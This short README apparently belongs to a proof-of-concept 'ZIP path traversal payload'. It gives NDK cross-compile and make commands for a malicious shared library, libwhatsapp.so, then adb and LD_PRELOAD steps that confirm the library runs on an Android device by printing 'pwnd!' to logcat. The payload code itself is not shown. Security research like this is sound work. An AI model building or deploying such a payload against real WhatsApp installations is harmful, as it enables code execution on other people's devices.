 # ZIP path traversal payload

To build this library:

    export CROSS_COMPILE=/opt/android-ndk/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android28-
    make

Then, make sure it works as expected:

    adb push libwhatsapp.so /data/local/tmp
    adb shell
    cd /data/local/tmp
    LD_PRELOAD=./libwhatsapp.so ls
    logcat --format="color brief" *:S CENSUS:*
    ...
    01-28 16:51:44.937 25651 25651 I CENSUS  : pwnd!

